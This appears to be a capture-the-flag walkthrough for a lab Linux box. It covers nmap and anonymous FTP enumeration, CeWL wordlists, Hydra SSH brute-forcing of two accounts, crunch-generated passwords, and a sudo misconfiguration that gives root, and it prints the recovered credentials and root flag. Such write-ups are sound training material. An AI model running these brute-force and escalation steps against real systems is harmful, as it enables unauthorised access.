# Cybersecurity-Walkthroughs
My cybersecurity lab and CTF walkthroughs


# HS box Walkthrough

## Target Information

- IP: 192.168.1.112
- OS: Linux

---

# Reconnaissance

## Nmap Scan

```bash
nmap -sV -p- -T4 192.168.1.112
```

### Results

| Port | Service | Version |
|--------|---------|---------|
| 21 | FTP | vsftpd 2.0.8+ |
| 1515 | HTTP | Apache 2.4.7 |
| 3535 | SSH | OpenSSH 6.6.1 |

---

# FTP Enumeration
## FTP Enumeration

Connected using anonymous login:

```bash
ftp 192.168.1.112
```

Downloaded note.txt

Contents:

```text
Hello Dear!
Planning to join our team?
Try to login as Jack.
```

Discovered username:

```text
jack
```

---

# Web Enumeration


 
## CeWL Wordlist Generation


Generated wordlist using CeWL:

```bash
cewl -m 8 -d 1 http://192.168.1.112:1515
```

Interesting word:

```text
Cyberspace
```

---

# SSH Access (Jack)

## Jack Login





```bash
hydra -l jack -P sshpass.txt ssh://192.168.1.112:3535
```

Found credentials:

```text
jack : Cyberspace
```

Logged in successfully.

---

# Goblin Enumeration

## Goblin Hint









Read note.txt:

```text
Goblin password contains:
a c 1 5
Length: 4
```

Generated permutations:

```bash
crunch 4 4 -p ac15 > passwords.txt
```

Bruteforced SSH:

```bash
hydra -l goblin -P passwords.txt ssh://192.168.1.112:3535
```

Credentials:

```text
goblin : ca51
```

---

# Privilege Escalation

Checked sudo permissions:

```bash
sudo -l
```

Output:

```text
(root) ALL, !/bin/su
```

Obtained root shell:

```bash
sudo -i
```

---

# Flag
## Root Flag


```text
root-flag{a9dcac68bfa4b4f6319e09fa041e3cb3}
```

---

# Skills Learned

- Nmap Enumeration
- FTP Anonymous Access
- CeWL
- Hydra
- SSH Enumeration
- Linux Privilege Escalation
